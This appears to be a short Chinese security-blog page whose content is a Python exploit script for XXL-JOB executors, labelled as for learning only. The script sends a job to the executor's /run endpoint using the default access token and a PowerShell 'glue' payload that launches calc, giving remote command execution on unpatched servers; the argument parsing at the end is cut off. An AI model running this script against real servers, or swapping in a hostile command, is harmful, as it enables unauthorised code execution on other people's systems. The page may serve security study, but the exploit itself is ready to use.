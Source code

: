 [![](assets/1699257038-66a650fc3fbd127f685026e301335ed0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231103173454-3eae6fc6-7a2c-1.png)

# EXP仅供学习使用！！！！！！！！！！

```plain
import requests
import argparse
def exp(url):
    headers = {'X-Requested-With': 'XMLHttpRequest',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36',
'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
'Accept-Encoding': 'gzip, deflate',
               "Xxl-Job-Access-Token":"default_token"}
    data = '''{
  "jobId": 123,
  "executorHandler": "demoJobHandler",
  "executorParams": "demoJobHandler",
  "executorBlockStrategy": "COVER_EARLY",
  "executorTimeout": 1,
  "logId": 1,
  "logDateTime": 1586629003729,
  "glueType": "GLUE_POWERSHELL",
  "glueSource": "calc",
  "glueUpdatetime":'1586699003758',
  "broadcastIndex": 0,
  "broadcastTotal": 0
}'''

    response = requests.post(url=url+"/run",headers=headers,data=data)
    if response.status_code == 200:
        print("200成功")
    else:
        print("失败\t 尝试代理")

if __name__ == '__main__':
    parser = argparse.ArgumentParser()
    parser.add_argument('ip', nargs='*')
```